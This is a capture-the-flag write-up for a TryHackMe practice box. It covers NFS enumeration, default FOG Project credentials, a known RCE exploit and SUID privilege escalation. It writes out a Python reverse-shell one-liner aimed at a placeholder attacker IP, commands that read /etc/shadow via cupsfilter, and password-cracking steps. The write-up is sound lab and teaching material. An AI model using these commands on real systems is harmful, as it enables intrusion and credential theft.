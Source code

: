 # Corgi
Try this OSCP level practice box by JSON SEC at https://tryhackme.com/room/corgi

## nmap TCP scan
The first thing we do on any vulnerable box is a nmap scan. I went with a TCP-SYN scan with default scripts and all ports

`nmap -sS -sC -p- <TARGET-IP>`
![nmap scan pt1](Images/nmap_1.png)
![nmap scan pt2](Images/nmap_2.png)

## NFS
From this scan we can see that nfs is installed on the server, lets use `showmount` to see if there are any shares we can mount to our system.

![showmount](Images/showmount.png)

looks like there are 2 shares we can mount, lets use mount one of them and have a look around

![mount](Images/mount.png)

## FOG Project
After looking around we found this fog file, after some quick google searching I found this documentation for something called 'FOG project'

![FOG documentation](Images/FOG_1.png)

And going to `<TARGET-IP>/fog` takes us to a login page

![FOG login](Images/FOG_2.png)

Now that we have a login page we need some credentials. before we try anything else lets try and find some default creds on google.

![FOG default creds](Images/FOG_3.png)

Lucky for us these default credentials worked and we are now logged in to the FOG dashboard

![FOG dashboard](Images/FOG_4.png)

## RCE Exploit
Now that we have access to a dashboard lets have a look on exploit.db to see if there are any known exploits for the version of FOG that is installed.

![search on exploitdb](Images/exploit_1.png)

Lucky Break, there is a RCE exploit here https://www.exploit-db.com/exploits/49811

![exploit contents](Images/exploit_2.png)

Lets try and use this RCE exploit and test to see if we can run commands on the server before we try and gain access through a remote shell.

![before file upload](Images/exploit_3.png)
![after file upload](Images/exploit_4.png)

Running the hostname command to test if file upload worked

![testing RCE](Images/exploit_5.png)

## Reverse Shell & Privilege Escalation
Now that we have RCE lets get our reverse shell up and running

`python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ATTACKER-IP>",<PORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'`
![getting reverse shell](Images/rev_shell_1.png)

And stabilise the shell

![stabilising reverse shell](Images/rev_shell_2.png)

now that we have a working and stable reverse shell, we need to be able to read the /etc/shadow and /etc/passwd files.
First lets find out what binaries we have access to with `find`

`find / -perm /4000 2>/dev/null`

![available binaries](Images/binaries.png)

After having a search on https://gtfobins.github.io/, we found that the cupsfilter binary has a File read vulnerability, and we can use this to read the /etc/shadow and /etc/passwd files

![result on GTFObins](Images/cupsfilter.png)

`cupsfilter -i application/octet-stream -m application/octet-stream /etc/passwd`
![reading the /etc/passwd file pt1](Images/passwd_1.png)
![reading the /etc/passwd file pt2](Images/passwd_2.png)

`cupsfilter -i application/octet-stream -m application/octet-stream /etc/shadow`
![reading the /etc/shadow file pt1](Images/shadow_1.png)
![reading the /etc/shadow file pt2](Images/shadow_2.png)

Lets copy the contents of the files onto our host computer, then use unshadow and johntheripper to get the passwords

`unshadow passwd.txt shadow.txt`

`john --wordlist=/usr/share/wordlists/rockyou.txt`

![cracking the hashes](Images/cracked.png)

So now we have a login, lets `su` into the new user and see what permissions they have.

![checking sudo -l](Images/sudo.png)

It looks like they can run any command, lets try to get into the root account and find the user and root hashes

![sudo su and user hash](Images/usr_hash.png)
![root hash](Images/root_hash.png)